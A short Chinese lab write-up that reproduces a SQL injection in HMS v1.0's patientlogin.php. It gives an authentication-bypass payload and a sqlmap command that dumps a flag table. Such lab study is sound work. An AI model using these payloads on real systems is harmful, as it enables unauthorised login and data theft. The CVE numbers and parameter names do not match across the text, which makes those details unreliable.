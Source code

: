 ```yaml
---
title: CVE-2021-35283【SQL 注入】
author: Ghost
date: 2023-12-15
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

HMS v1.0 was discovered to contain a SQL injection vulnerability via patientlogin.php.

## 2. 漏洞复现

poc：[CVE-2022-23366](https://github.com/nu11secur1ty/CVE-mitre/tree/main/2022/CVE-2022-23366)

漏洞验证 `username=admin' or '1'='1  --+` 可以直接登录，注入参数为 `loginid` ，抓包跑sqlmap

```shell
python sqlmap.py -r post.txt  -p loginid --batch -D ctf -T flag  --dump
```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310111221354.png)
